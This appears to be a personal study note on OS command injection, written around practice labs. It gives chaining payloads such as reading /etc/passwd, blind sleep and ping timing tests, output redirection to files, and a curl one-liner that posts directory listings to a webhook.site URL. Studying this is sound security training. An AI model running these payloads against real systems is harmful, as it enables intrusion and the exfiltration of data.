 <h1>What is it</h1>

Injecting system commands into input in ways not allowed to like bypassing blacklists or chaining commands.
In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.
Eg: If there is an input for ping tester with input box try doing ```IP && cat /etc/passwd``` if already identified that underlying is Linux.

![Ex_ping](ping.png)

Now this can show output or not. Depending on that have to try differen payloads to see if it is executing but just not showing output.

<h1>Baby steps</h1>

Identify user controlled input fields and try to get a mental map of how the application functions. 

If output displayed:
Try chaining commmands using shell meta characters.

if going in blind methods you can look into are:
Using ``` <safe_input> && sleep 10 & ``` (Only for linux) command or ```<safe_input> && ping -c 10 127.0.0.1 & ```(Inter OS) and see if output adheres to the time delay.
If it does you can then try to use other methods to exfiltrate more data like try to run `whoami`(not preffered way as chaining difficult) or $(whoami) and rediect the output.
Placing the additional command separator & after the injected command is useful because it separates the injected command from whatever follows the injection point. 
This reduces the chance that what follows will prevent the injected command from executing. 

![redirection](redirection.png)

https://www.makeuseof.com/what-are-linux-metacharacters/
https://www.bogotobogo.com/Linux/linux_shell_programming_tutorial7_metacharacters_quotes.php
https://github.com/payloadbox/command-injection-payload-list


<h1>Lab1 Simple Case</h1>
Directly executed using eval and the entire raw output is displayed back.
Can just chain commmand we want to run using shell meta characters and end with '#'(for BASH) to prevent 
interference with remaining part of the script running the commands. With this we can run anything as we can get path names,file names anything as output displayed.


<h1>Lab2 Simple Blind</h1>
Just used sleep on different parameters you control to check which one delays response and that is then confirmed to be vulnerable.




<h1>Lab3&4&5 Blind Redirection</h1>
If need output of a command and its blind injection:
1. Find vulnerable parameter
2. a) Try to find a writeable place where you can create a file and can also access that file using some other request.
2. b) Perform the injection and redirect output using '>'(Will create file or overwrite if already exists) or '>>'(Will create file or append to if already exists). 
3. If cannot write use webhook.site . Ways to do : https://medium.com/@excybex/this-blog-explores-the-potential-misuse-of-webhook-site-89baecd7704b.
Eg: ```dir=$(ls); curl -s -X POST https://webhook.site/f3082654-6152-471b-b960-48dfd6fce02f --data-raw $dir```

![Webhook example](webhook.png)

<h2>Scripting Note:</h2>
Try to output useful error messages if script fails for some reason.
Check for auth tokens and get them before sending actual request.
Can set proxy to BURP interceptor ~~so that can record the responses and know if it worked or not~~ or just print the response text in the script.
